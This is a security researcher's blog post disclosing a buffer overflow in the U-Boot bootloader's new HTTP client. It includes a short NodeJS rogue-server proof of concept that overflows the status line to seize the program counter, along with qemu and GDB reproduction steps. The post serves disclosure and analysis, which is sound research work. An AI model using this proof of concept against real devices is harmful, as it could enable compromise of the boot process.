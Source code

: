 ```yaml
---
layout: posts
title: "U-Boot HTTP Client"
date: 2023-02-06 00:00:00 -0600
categories: u-boot http
author: Nicholas Starke
---
```


Recently, the U-Boot Bootloader introduced HTTP support for remote booting.  More information about this feature introduction can be read at the linaro blog here: [https://www.linaro.org/blog/http-now-supported-in-u-boot/](https://www.linaro.org/blog/http-now-supported-in-u-boot/).

This blog post will look at the implementation of the U-Boot HTTP Client and discuss some of its shortcoming in its present form.

The HTTP Client is implemented here: [https://source.denx.de/u-boot/u-boot/-/blob/master/net/wget.c](https://source.denx.de/u-boot/u-boot/-/blob/master/net/wget.c)

As it currently is implemented, there is a buffer overflow in the HTTP Client implementation.

I was able to take control of the Instruction Pointer (`$PC`) using a relatively simple proof of concept rogue web server:

## Proof of Concept

```javascript
// Forgive me for writing this poorly and in NodeJS...
const net = require('net');

const response = [
    'HTTP/1.0 200 ' + 'A'.repeat(1024 * 1024 * 86),
    '\r\n'
].join('\r\n');

const socket = net.createServer(function (c) {
    c.write(response);
    c.end()
});

socket.listen(80, function() {
    console.log('server running');
});
```

Screenshot:

![](/images/02062023/bof.png)

## Impact

This could potentially be used to remotely compromise a U-Boot based device that relies on U-Boot's HTTP Boot. To the best of my knowledge, no such hardware device currently exists. All testing in this blog post was performed in a virtualized environment with `qemu-system`.

I am not sure what the goal of an exploit would be, but I think the most likely objective would be to try to load a different boot image than the one the administrator is expecting; but even this is a stretch.  

If you can control the webserver the wget request is issued to, you can control the image that comes back to the host for it to boot.  If hardware root of trust features were enabled, this could be used to bypass the hardware root of trust.  

If you can control any part of the network, since the traffic is over HTTP you could simply Machine in the Middle the network traffic and send your own boot image as well. 

## Analysis

If you want to consider this a vulnerability, writing an exploit that will work **at all**, let alone across device models, is going to be difficult.  In a virtualized environment, a successful exploit is going to depend not only on the amount of system memory, but more importantly, the `$loadaddr` parameter value passed into the `wget` command within the U-Boot CLI.  Since that can vary at runtime, trying to build an exploit is going to be difficult. 

I don't consider this a vulnerability because of its recent implementation and the slow adoption of new U-Boot versions. No one uses this feature yet.

## A Note About Disclosure

The HTTP client is a very recently implemented feature and has not to my knowledge been included in a major U-boot release yet. Also, the U-Boot maintainers do not have any form of private security contact method, so I'm just full disclosing this. If this rubs anyone the wrong way, consider reaching out to the U-Boot project and asking them to set up a `security@` email inbox.

## Methodology

All testing was completed against the master branch at commit revision `f147aa80f52989c7455022ca1ab959e8545feccc`.  This was the latest commit when I pulled the source.

I followed the instructions I wrote up [here](/qemu/u-boot/bootloader/2021/01/20/qemu-system-execute-raw-binary-u-boot-image.html) and then attached a GDB-multiarch instance to the VM process by adding `-s -S` to the qemu-system command.  So in full, my qemu-system command looked like this:

```
qemu-system-arm -M vexpress-a9 -device loader,file=u-boot.bin,addr=0x60800000,cpu-num=0,force-raw=on -s -S -nographic
```

The U-Boot CLI Commands I used were:

```
setenv autoload 0;dhcp
wget $loadaddr 172.19.222.219:/
```

Where `172.19.222.219` is the IP address of the nodejs POC server running on port 80.

The GDB commands I used on top of pwndbg were:

```
target remote :1234
file u-boot
b *0x41414141
```

The `file u-boot` command loads the `u-boot` file from the current u-boot directory:

```
$ file u-boot
u-boot: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

This is the ELF symbol file that u-boot generates at compile time.  
